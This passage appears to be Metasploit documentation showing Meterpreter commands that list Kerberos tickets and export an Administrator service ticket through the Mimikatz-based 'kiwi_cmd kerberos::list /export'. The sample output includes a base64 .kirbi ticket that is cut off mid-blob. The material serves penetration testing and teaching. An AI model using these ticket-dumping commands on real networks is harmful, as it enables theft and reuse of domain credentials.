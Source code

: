 Tickets in the current session can be viewed like so:

```

meterpreter > kerberos_ticket_list
[+] Kerberos tickets found in the current session.
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 12/16/2022 3:35:41 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : krbtgt/EXAMPLE.COM @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
```

**Export Service Tickets**

```msf
meterpreter > kiwi_cmd kerberos::list /export

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
====================
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
```